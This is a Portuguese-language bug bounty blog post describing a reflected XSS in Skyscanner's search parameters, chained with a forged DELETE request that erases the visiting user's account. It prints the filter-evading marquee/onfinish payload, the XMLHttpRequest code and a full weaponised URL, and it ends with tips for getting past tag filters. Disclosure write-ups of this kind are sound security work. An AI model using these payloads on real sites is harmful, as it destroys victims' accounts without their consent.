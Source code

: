 ```yaml
---
layout: post
title:  "Bug Bounty 03 - Deleting User's Account via Reflected XSS chained with CSRF"
date:   2019-10-03 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Salve rapaziada, no post de hoje irei falar sobre uma vulnerabilidade que encontrei no programa de bug bounty do <a href="https://bugcrowd.com/skyscanner" target="_blank">Skyscanner</a> na plataforma <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a>.
</p>

<p align="justify">
Enquanto navegava pela aplicação, notei que ao fazer uma busca, haviam vários parâmetros sendo passados pelo método GET, similar a este resultado:
</p>

<p align="justify">
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/kef/190615/190622/?adults=1&children=0&adultsv2=1&childrenv2=&infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home#results</code>
<br>
</p>

<p align="justify">
Dei uma no código fonte e vi que o a URL não era refletida no código fonte da aplicação.
<br>
<br>
Depois de pesquisar um pouco mais, notei que ao realizar uma busca por locais que não haviam viagens a URL era refletida no código. Utilizei o seguinte link para encontrar essa funcionalidade:
</p>

<p align="justify">
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home&ampcurrency=BOB</code>
<br>
<br>
<img src="/images/bug_bounty/bb03/bb03-00.png"/>
</p>

<p align="justify">
Com isso, fui injetando algumas tags nos parâmetros e vendo se eles eram refletidos sem algum tipo de sanitização. Notei que ao inserir algo no parâmetro <i>ref</i> ele era refletido no código fonte e adivinhem... sem nenhum tipo de sanitização.
<br>
<br>
Ao inserir determinados payloads, eu recebia um código 500 e a aplicação era redirecionada para uma página de erro.
<br>
<br>
Depois de algumas tentativas, decidi inserir uma tag que já havia utilizado em outros programas de bug bounty:
<br>
<code>">&lt;marquee>rapt00r&lt;/marquee></code>
<br>
<br>
Esta tag cria uma espécie de painel (tipo aqueles painéis de LED que as letras ficam indo de uma ponta a outra do painel)
<br>
<br>
E bingo!!! O nosso marquee foi adicionado com sucesso no código. Infelizmente não tirei print dessa parte e nem do código fonte pois fiquei muito animado ao ver que realmente funcionou :)
</p>

<p align="justify">
Pesquisando um pouco mais sobre como utilizar a tag marquee, notei que ela suporta um evento JS chamado <i>onfinish</i>.
<br>
<br>
Então, quando o marquee era finalizado, podíamos executar códigos Javascript. Infelizmente também esqueci de tirar print dessa parte :(
<br>
<br>
Dependendo do tamanho do painel que era criado, demoraria muito para o banner finalizar. Então adicionei outros 2 atributos ao nosso marquee: <i>width</i> e <i>loop</i>, que servem para você definir o tamanho e o número de vezes que você quer que o banner apareça.
</p>

<p align="justify">
Bom, nesse ponto nosso payload estava da seguinte forma:
<br>
<code>">&lt;marquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt;/marquee></code>
<br>
</p>

<p align="justify">
Agora, o link junto com o payload ficaria da seguinte forma:
<br>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home">&lt;marquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt;/marquee>&ampcurrency=BOB</code>
</p>

<p align="justify">
E quando o usuário acessava, ele veria o alerta em sua tela :)
</p>

<p align="justify">
Decidi então encadear com um CSRF para realizar o account takeover, mas infelizmente não havia a opção de troca de email (e para trocar a senha era necessário saber a senha antiga :/ )
</p>

<p align="justify">
Sem perder as esperanças, notei que havia a opção de deletar a conta. Hmm, interessante...
<br>
<br>
Para realizar a exclusão da conta era necessário enviar uma request (necessário que o usuário esteja autenticado) do tipo <i>DELETE</i> para o endpoint <i>/profile/user/delete-account</i> e a conta seria deletada.
</p>

<p align="justify">
Para finalizar, irei deixar o código da requisição que utilizei no evento JS para realizar a exclusão da conta do usuário que visitasse o link:
</p>

<code>var request = new XMLHttpRequest();
request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); 
request.send();</code>

<p align="justify">
E o link final para explorar a vulnerabilidade ficou da seguinte forma:
</p>
<p align="justify">
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=https://www.google.com"/> &lt;marquee loop=1 width=0 onfinish="var request = new XMLHttpRequest(); request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); request.send();">&lt;/marquee>&ampcurrency=BOB</code>
</p>

<p align="justify">
Como PoC desta vulnerabilidade, deixo um vídeo e vocẽs podem acessar pelo link:
<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/ZuyLvAPg-TQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<p align="justify">
É isso aí galera, recomendo utilizar outras tags além do <i>iframe, img, script</i>, pode ser que vocês consigam dar esse "bypass" da mesma forma que eu acabei de mostrar :)
</p>

Valeuuu !!!